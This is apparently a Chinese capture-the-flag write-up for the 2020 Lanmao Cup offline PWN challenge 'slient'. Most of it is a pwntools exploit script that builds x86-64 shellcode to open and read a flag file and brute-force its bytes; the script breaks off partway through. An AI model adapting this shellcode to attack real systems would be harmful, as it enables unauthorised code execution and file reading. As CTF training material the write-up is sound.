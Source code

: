 > 原文链接: https://www.anquanke.com//post/id/226089 


# 2020 蓝帽杯线下赛PWN WriteUp


                                阅读量   
                                **313726**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t014908611c47fec869.png)](https://p5.ssl.qhimg.com/t014908611c47fec869.png)



## slient

这个题目很容易看到这是执行`shellcode`，但是长度最大只有`0x40`字节。这个题目和天翼杯的`safebox`的题目类似，都是写入`shellcode`爆破`flag`。这里直接用的[天翼杯2020_wp_by_LQers](https://www.freebuf.com/articles/network/245664.html)中的`shellcode`。

```
# encoding=utf-8
from pwn import *

file_path = "./chall"
context.arch = "amd64"
# context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
# if debug:
#     p = process([file_path])
#     gdb.attach(p, "b *$rebase(0xC94)")
#     libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#     one_gadget = 0x0
#
# else:
#     p = remote('', 0)
#     libc = ELF('')
#     one_gadget = 0x0


def pwn(p, index, ch):

    read_next = "xor rax, rax; xor rdi, rdi;mov rsi, 0x10100;mov rdx, 0x300;syscall;"
    # open
    shellcode = "push 0x10032aaa; pop rdi; shr edi, 12; xor esi, esi; push 2; pop rax; syscall;"

    # re open, rax =&gt; 4
    shellcode += "push 2; pop rax; syscall;"

    # read(rax, 0x10040, 0x50)
    shellcode += "mov rdi, rax; xor eax, eax; push 0x50; pop rdx; push 0x10040aaa; pop rsi; shr esi, 12; syscall;"

    # cmp and jz
```